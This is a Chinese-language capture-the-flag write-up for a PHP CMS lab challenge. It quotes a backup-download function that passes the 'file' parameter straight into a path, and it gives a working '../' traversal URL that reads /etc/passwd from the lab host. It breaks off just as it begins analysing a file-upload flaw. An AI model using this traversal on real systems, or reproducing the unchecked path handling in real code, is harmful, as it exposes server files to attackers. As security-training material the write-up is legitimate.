 我们前往/admin进行登录

![image-20241119150101102](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411191501248.png)

### 任意文件读取

漏洞代码位于/application/manage/controller/Backup.php的downloadBak方法：

```
function downloadBak() {
    $file_name = $_GET['file'];
    $file_dir = $this->config['path'];
    if (!file_exists($file_dir . "/" . $file_name)) { //检查文件是否存在
        return false;
        exit;
    } else {
        $file = fopen($file_dir . "/" . $file_name, "r"); // 打开文件
        // 输入文件标签
        header('Content-Encoding: none');
        header("Content-type: application/octet-stream");
        header("Accept-Ranges: bytes");
        header("Accept-Length: " . filesize($file_dir . "/" . $file_name));
        header('Content-Transfer-Encoding: binary');
        header("Content-Disposition: attachment; filename=" . $file_name);  //以真实文件名提供给浏览器下载
        header('Pragma: no-cache');
        header('Expires: 0');
        //输出文件内容
        echo fread($file, filesize($file_dir . "/" . $file_name));
        fclose($file);
        exit;
    }
}

```

读取的文件的后半部分可控，即`$_GET['file']`可控

我们可以通过这下载文件

```
http://0c3a24d3-6960-480b-9d60-f986cd495e16.node3.buuoj.cn/manage/backup/downloadbak?file=../../../../../../../../../../etc/passwd
```

但在buu环境中并没有/flag，因此还需要利用接下来的文件上传漏洞。（其实也可以猜到，是/flag.txt）



### 文件上传

拿到了后台，我们可以发现文件上传的点

![image-20241119151420947](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411191514999.png)

正常上传发现上传不了，因此我们看一下文件上传的代码。代码位于`application/admin/controller/Plugs.php`的upload方法
